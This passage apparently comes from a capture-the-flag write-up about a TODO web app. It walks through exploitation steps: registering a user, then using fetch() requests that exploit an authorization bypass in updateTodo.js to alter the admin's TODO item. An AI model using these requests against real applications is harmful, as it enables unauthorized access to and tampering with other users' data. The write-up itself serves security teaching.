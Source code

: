 This endpoint properly shows both owned and shared TODO items.

---

## Exploitation Steps

### Step 1: User Registration

First, create a new user account to obtain a valid JWT token:

```javascript
// Register at /signup
{
    "username": "test",
    "email": "test@gmail.com", 
    "password": "test1234"
}
```

After registration, the new user gets ID `2` (admin has ID `1`).

### Step 2: Attempt Direct Sharing (Fails)

Try to share admin's TODO item directly:

```javascript
fetch('/api/shareTodo', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': `Bearer ${localStorage.getItem('auth_token')}`,
  },
  body: JSON.stringify({
    id: 1,        // Admin's todo ID
    target_id: 2  // Our user ID
  }),
})
.then(response => response.json())
.then(data => console.log(data));
```

**Result**: `"you cannot share already completed todo"` - The admin's TODO is already marked as completed.

### Step 3: Modify TODO Status

Use the authorization bypass in `updateTodo.js` to mark admin's TODO as incomplete:

```javascript
fetch('/api/updateTodo', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'Authorization': `Bearer ${localStorage.getItem('auth_token')}`,
  },
  body: JSON.stringify({
    id: 1,         // Admin's todo ID
    value: false   // Mark as incomplete
  }),
})
.then(response => response.json())
.then(data => console.log(data));
```
